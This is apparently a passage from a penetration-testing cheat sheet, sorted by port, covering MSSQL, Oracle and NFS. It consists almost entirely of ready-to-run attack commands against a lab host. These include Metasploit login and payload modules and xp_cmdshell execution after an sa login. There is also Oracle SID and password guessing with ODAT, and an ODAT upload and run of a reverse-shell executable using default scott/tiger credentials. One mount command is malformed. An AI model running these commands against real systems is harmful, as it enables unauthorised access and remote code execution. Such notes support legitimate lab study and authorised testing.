 ## Port 1030/1032/1033/1038

Used by RPC to connect in domain network.

## MSSQL - 1433

```
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
	xp_cmdshell 'date'
  	go

```

## Port 1521 - Oracle

```
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe


```

## Port 2049 - NFS

```
showmount -e 10.11.1.111

If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS
mount -t 10.11.1.111:/ /tmp/NFS
```
